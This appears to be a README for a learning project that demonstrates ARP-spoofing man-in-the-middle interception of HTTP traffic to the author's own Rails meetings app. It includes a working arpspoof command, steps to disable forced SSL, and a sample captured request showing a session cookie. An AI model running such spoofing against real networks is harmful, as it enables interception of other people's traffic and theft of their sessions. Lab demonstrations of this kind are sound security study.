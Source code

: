 ## Overview
This project demonstrates a basic Man-In-The-Middle (MITM) attack using ARP spoofing to intercept HTTP traffic in a local network.

## Key Features
- ARP Spoofing with `arpspoof`
- HTTP traffic sniffing using Python
- Target app: Ruby on Rails server for meetings
- HTTPS disabled for demonstration

## Setup
1. Launch the Rails app on a LAN IP (port 3000)
   ** The rails app (roundtable) is on my github :  
3. Disable HTTPS: `config.force_ssl = false`
4. Run ARP spoofing:
   ```bash
   sudo arpspoof -i eth0 -t [Victim-IP] [Router-IP]
5. Run Python sniffer script (included in sniffer.py)
6. Simulate traffic using:
   ```bash
    curl http://[Victim-IP]:3000

 Sample output : 
 
 GET /meetings HTTP/1.1
User-Agent: curl/7.81.0
Cookie: session_id=abcd1234

## What I Learned:

Risks of using HTTP in local networks

Low-level network attack mechanics

Building sniffer tools with Python
